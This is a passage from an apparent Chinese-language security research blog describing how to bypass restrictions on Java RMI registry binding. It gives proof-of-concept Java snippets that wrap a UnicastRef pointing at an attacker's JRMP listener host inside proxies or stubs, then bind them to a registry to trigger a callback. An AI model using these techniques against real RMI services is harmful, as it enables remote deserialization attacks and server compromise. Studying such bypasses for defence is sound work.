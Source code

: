 1.动态反射

2.找一个同时继承实现两者的类或者实现Remote，并将UnicastRef类型作为其一个字段

自定义一个反射

```
public static class PocHandler implements InvocationHandler, Serializable {
    private RemoteRef ref;

    protected PocHandler(RemoteRef newref) {
        ref = newref;
    }


    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        return method.invoke(this.ref, args);
    }
}
```

```
UnicastRef unicastRef = generateUnicastRef(jrmpListenerHost, jrmpListenerPort);
Remote remote = (Remote) Proxy.newProxyInstance(RemoteRef.class.getClassLoader(), new Class<?>[]{Remote.class}, new PocHandler(unicastRef));
 registry.bind("2333", remote);
```

![](http://pic.findbugs.top/18-9-20/30087933.jpg)

开心，耐着性子接着去找第二种情况，这里真的找了好久好久，刚开始看到UnicastRemoteObject(Remote)，本来想通过设置ref字段去设置UnicastRef,但是一直爆没有该字段，父类的父类的父类(太爷爷类)RemoteObject中有ref字段。但是被申明为transient(不会被序列化，即使被反序列化之后还会为null)。

只能看源码了，找了很久(真的很久)找到了一个RemoteObjectInvocationHandler，本身是InvocationHandler还不会有异常。

```
UnicastRef unicastRef = generateUnicastRef(jrmpListenerHost, jrmpListenerPort);
Remote remote = (Remote) Proxy.newProxyInstance(RemoteRef.class.getClassLoader(), new Class<?>[]{Activator.class}, new PocHandler(unicastRef));
 registry.bind("23333", remote);
```



还有一个RMIConnectionImpl_Stub类，情况2

```
UnicastRef unicastRef = generateUnicastRef(jrmpListenerHost, jrmpListenerPort);
RMIConnectionImpl_Stub remote = new RMIConnectionImpl_Stub(unicastRef);
registry.bind(name, remote);
```

都可以还不报异常，开心。

![](http://pic.findbugs.top/18-9-20/22685923.jpg)

## bingo

